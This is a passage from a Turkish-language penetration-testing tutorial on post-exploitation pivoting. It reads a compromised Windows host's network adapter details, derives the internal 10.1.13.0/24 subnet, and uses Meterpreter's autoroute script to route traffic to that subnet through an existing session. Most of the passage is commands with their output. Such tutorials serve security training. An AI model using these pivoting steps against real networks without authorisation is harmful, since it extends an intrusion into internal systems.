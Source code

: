 ```bash
Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport
Hardware MAC: d2:d6:70:fa:de:65
IP Address  : 10.1.13.3
Netmask     : 255.255.255.0
```



Bu bilgilerden anladığımız kadarıyla `Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport` isimli kartın IP adresi `10.1.13.3`. O zaman bu ağa bağlananlara `10.1.13.1-255` aralığında IP adresleri verildiğini anlıyoruz. CIDR formatında bu `10.1.13.0/24` olarak gösteriliyor.



Meterpreter’in sağladığı imkanlardan bir tanesi de `autoroute` script kodudur. autoroute hakkında yardımı görüntüleyelim.


```bash
meterpreter > run autoroute -h
> Usage:   run autoroute **[**-r**]** -s subnet -n netmask
> Examples:
>   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
>   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
>   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
>   run autoroute -p                            # Print active routing table
>   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
> Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
```



Şimdi otomatik rotalama yapalım. Bunun için aşağıdaki komutu kullanıyoruz.


```bash
meterpreter > run autoroute -s 10.1.13.0/24
> Adding a route to 10.1.13.0/255.255.255.0...
**[**+] Added route to 10.1.13.0/255.255.255.0 via 192.168.1.201
> Use the -p option to list all active routes
```



Rotalama yapıldı. Kontrol edelim.


```bash
meterpreter > run autoroute -p

Active Routing Table
**====================**

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.13.0          255.255.255.0      Session 1

meterpreter >
```
